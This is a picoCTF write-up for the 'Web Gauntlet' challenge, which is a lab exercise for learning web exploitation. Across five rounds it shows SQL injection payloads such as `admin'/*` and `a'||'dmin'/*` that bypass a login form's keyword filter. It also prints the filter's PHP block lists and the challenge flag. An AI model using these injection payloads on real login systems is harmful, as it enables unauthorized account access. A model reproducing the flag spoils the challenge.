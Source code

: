 # Web Gauntlet
Category: Web Exploitation

## Description

> Can you beat the filters? Log in as admin 

## Solution

Two links were attached. One contained a simple web form with input fields for a username and password:
```html
<h5 class="card-title text-center">Round 1 / 5</h5>
<form class="form-signin" action="index.php" method="post">
    <div class="form-label-group">
        <input type="text" id="user" name="user" class="form-control" placeholder="Username" required autofocus>
        <label for="user">Username</label>
    </div>

    <div class="form-label-group">
        <input type="password" id="pass" name="pass" class="form-control" placeholder="Password" required>
        <label for="pass">Password</label>
    </div>

    <button class="btn btn-lg btn-primary btn-block text-uppercase" type="submit">Sign in</button>
</form>
```

If we try to sign in with a random username and password (e.g. `user:pass`), we get the following as output:
```sql
SELECT * FROM users WHERE username='user' AND password='pass' 
```

The other was called `filter.php` and contained this:
```console
root@kali:/media/sf_CTFs/pico/Web_Gauntlet# curl http://jupiter.challenges.picoctf.org:28955/filter.php
Round1: or<br/>
```

So, it seems safe to assume that we need to login to the website using SQL injection without using the keyword in the filter.

To pass the first round, we can use `admin'--` as the username, causing the rest of the clause to be interpreted as a comment:

```sql
SELECT * FROM users WHERE username='admin'--' AND password='pass' 
```

Round 2 introduces the following filter:
```
Round2: or and like = --
```

We'll just try a different comment style. `#` doesn't work but `/*` does, making our input `admin'/*` and our complete clause:
```sql
SELECT * FROM users WHERE username='admin'/*' AND password='pass' 
```

Round 3 has the following filters:
```
Round3: or and = like > < --
```

Same trick works here, using `admin'/*`:
```sql
SELECT * FROM users WHERE username='admin'/*' AND password='pass' 
```

Round 4 filters:
```
Round4: or and = like > < -- admin
```

We can't use `admin` so we'll just have to recreate the string via concatenation. `CONCAT` doesn't seem to work, but `||` does and this must be sqlite.

We enter `a'||'dmin'/*` as input and get:
```sql
SELECT * FROM users WHERE username='a'||'dmin'/*' AND password='pass' 
```

Last round, filters are:
```
Round5: or and = like > < -- union admin
```

Same as before, we use `a'||'dmin'/*` and get:
```sql
SELECT * FROM users WHERE username='a'||'dmin'/*' AND password='pass' 
```

Finally we are informed to check `filter.php` for the flag, where a PHP script is dumped:

```php
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}
?> 
```

The flag: `picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}`